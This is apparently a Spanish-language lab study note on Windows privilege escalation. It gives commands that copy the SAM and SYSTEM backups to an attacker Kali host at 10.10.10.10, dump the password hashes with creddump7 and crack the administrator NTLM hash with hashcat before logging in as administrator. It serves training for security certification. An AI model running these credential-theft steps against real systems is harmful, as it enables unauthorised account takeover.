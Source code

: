 - Los archivos SAM y SYSTEM se pueden usar para extraer hashes de contraseñas de usuario. Esta VM ha almacenado de forma insegura backups de los archivos SAM y SYSTEM en el C:\Windows\Repair\ directorio.

- Transfiera los archivos SAM y SYSTEM a su Kali VM:

```
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\   
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

- En Kali, clone el repositorio creddump7 (el de Kali está desactualizado y no volcará hashes correctamente para Windows 10!) y úselo para volcar los hashes de los archivos SAM y SYSTEM:

```
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM
```

- Rompe el administrador NTLM hash usando hashcat:

```
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

Puede usar la contraseña descifrada para iniciar sesión como administrador usando winexe o PDR.

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Passwords - Passing the Hash]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Passwords - Registry]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Passwords - Saved Creds]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]


